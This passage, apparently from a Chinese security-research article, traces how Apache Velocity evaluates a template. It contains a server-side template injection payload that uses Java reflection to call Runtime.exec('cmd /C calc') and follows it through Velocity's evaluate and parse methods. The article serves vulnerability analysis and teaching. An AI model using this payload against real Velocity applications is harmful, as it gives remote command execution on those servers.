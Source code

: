 ### 3.5 简单分析

根据测试程序，首先会进入 Velocity 类的 init 方法

```plain
public static void init() {
    RuntimeSingleton.init();
}
```

在该方法中，会调用 RuntimeSingleton 类的 init 方法，这个方法主要是对模板引擎的初始化，比如设置属性、初始化日志系统、资源管理器、指令等  
接下来回到主程序中，实例化 VelocityContext，并将三对键值对 put 进去，之后调用 Velocity 类的 evaluate 方法  
此时 templateString 的值为

```plain
Hello, #set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cmd /C calc") | Full name: $name, phone: $phone, email: $email
```

```plain
public static boolean evaluate(Context context, Writer out, String logTag, String instring) throws ParseErrorException, MethodInvocationException, ResourceNotFoundException {
    return RuntimeSingleton.getRuntimeServices().evaluate(context, out, logTag, instring);
}
```

直接进入了 RuntimeInstance 的 evaluate 方法

```plain
public boolean evaluate(Context context, Writer out, String logTag, String instring) {
    return this.evaluate(context, out, logTag, (Reader)(new StringReader(instring)));
}
```

进入重载的 evaluate 方法  
[![](assets/1701606782-57fcde55f2fa4a96102d6ff0bf29f98f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103172953-8b649cec-7a2b-1.png)  
这个方法会调用 RuntimeInstance 类的 parse 方法进行解析  
经过两重调用来到 org\\apache\\velocity\\runtime\\parser\\Parser.class 的 parse 方法
